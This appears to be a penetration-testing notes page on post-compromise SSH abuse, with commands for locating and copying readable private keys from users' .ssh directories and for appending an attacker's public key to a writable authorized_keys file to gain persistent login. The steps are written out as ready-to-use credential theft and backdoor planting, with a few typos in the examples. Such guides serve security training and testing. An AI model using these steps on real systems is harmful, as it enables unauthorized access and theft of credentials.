 ```yaml
---
description: >-
  This is a crucial step in post compromise. It also allows for the
  best-case-scenario shell.
---
```


# 🔑 SSH Key Transfer

## Hijacking a user’s SSH Private Key via readable private keys

### How can you detect this?

```python
ls -la /home /root /etc/ssh /home/*/.ssh/; /etc/ssh:

-rwxrwxtwx 1 stef stef 565 Feb 16 01:28 id_rsa
```

* If you see the following permissions, the private keys are readable and you can then hijack them:

1. cd /.ssh
2. cat id\_rsa
3. copy/paste contents of id\_rsa into a file in a directory named after the individual’s name you are stealing the key from.
4. nano id\_rsa and paste the contents of id\_rsa into here.
5. chmod 600 id\_rsa
6.  SSH into the machine using the following syntax:

    ```python
    ssh -i id_rsa <user>@<IP>
    ```

## Writable Public Keys:

* If the authorized\_keys file is writable to the current user, this can be exploited by adding additional authorized keys.

### How can you detect this?

```python
ls -la /home /root /etc/ssh /home/*/.ssh/; /etc/ssh:
-rwxrwxrwx 1 stef stef 565 Feb 16 01:58 authorized_keys
```

* The easiest way to exploit this is to generate a new SSH key pair, add the public key to the file and login using the private key.

#### Generate a new SSH key pair:

```python
# On kali:
ssh-keygen

cat ~/.ssh/id_rsa.pub

cat ~/.ssh/id_rsa.pub | xclip -selection c
```

Copy the public key to the host:

```python
# On victim:
echo "ssh-rsa <pub_key_here>= kali@kali" >> /home/user/.ssh/authorized_keys

cat /home/user/.ssh/authorized_keys
```

Connect to the victim via SSH:

```python
ssh user@<IP>
```

* Note that if the key pair was not generated in the default directory for SSH, the private key can be specified using -i.

## References

[https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/](https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/)
